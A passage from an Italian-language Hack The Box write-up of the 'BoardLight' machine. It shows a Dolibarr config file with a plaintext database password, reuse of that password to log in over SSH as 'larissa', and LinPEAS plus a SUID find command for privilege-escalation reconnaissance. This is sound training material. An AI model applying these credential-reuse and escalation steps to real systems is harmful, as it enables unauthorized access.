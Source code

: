 ```bash
..<snip>..
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
..<snip>..
```

sembra essere un password, proviamo ad utilizzarla per avere accesso tramite ssh al l'utente `larissa`

```bash
┌──(kali㉿kali)-[~]
└─$ ssh larissa@10.10.11.11
The authenticity of host '10.10.11.11 (10.10.11.11)' can't be established.
ED25519 key fingerprint is SHA256:xngtcDPqg6MrK72I6lSp/cKgP2kwzG6rx2rlahvu/v0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.11' (ED25519) to the list of known hosts.
larissa@10.10.11.11's password:
Last login: Sat Aug  3 13:49:32 2024 from 10.10.14.21
larissa@boardlight:~$
```

## larissa --> root

Ci carichiamo [LinEPAS.sh](LinEPAS.sh) per darci una mano nella ricerca di una via per aumentare ancora i nostri privilegi e diventare root

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/boardlight4.png)

possiamo trovare qui binari non standard anche con il comando `find`

```bash
larissa@boardlight:/$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
```
